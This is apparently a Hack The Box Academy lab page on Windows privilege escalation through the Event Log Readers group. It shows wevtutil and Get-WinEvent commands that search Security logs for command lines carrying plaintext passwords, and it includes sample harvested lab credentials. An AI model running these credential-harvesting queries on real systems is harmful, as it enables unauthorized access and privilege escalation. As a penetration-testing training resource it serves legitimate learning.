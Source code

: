 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/67/section/602
// Platform Version: V1
// Module ID: 67
// Module Name: Windows Privilege Escalation
// Module Difficulty: Medium
// Section ID: 602
// Section Title: Event Log Readers
// Page Title: Hack The Box - Academy
// Page Number: 11
-->

# Event Log Readers

**Module Name:** Windows Privilege Escalation **Page Number:** 11

#### 

#### WINDOWS PRIVILEGE ESCALATION

# Event Log Readers

#### Confirming Group Membership

``` cmd-session
C:\htb> net localgroup "Event Log Readers"

Alias name     Event Log Readers
Comment        Members of this group can read event logs from local machine

Members

-------------------------------------------------------------------------------
logger
The command completed successfully.
```

#### Searching Security Logs Using wevtutil

``` powershell-session
PS C:\htb> wevtutil qe Security /rd:true /f:text | Select-String "/user"

        Process Command Line:   net use T: \\fs01\backups /user:tim MyStr0ngP@ssword
```

#### Passing Credentials to wevtutil

``` cmd-session
C:\htb> wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```

#### Searching Security Logs Using Get-WinEvent

``` powershell-session
PS C:\htb> Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}

CommandLine
-----------
net use T: \\fs01\backups /user:tim MyStr0ngP@ssword
```

# 

# 

#### Questions

####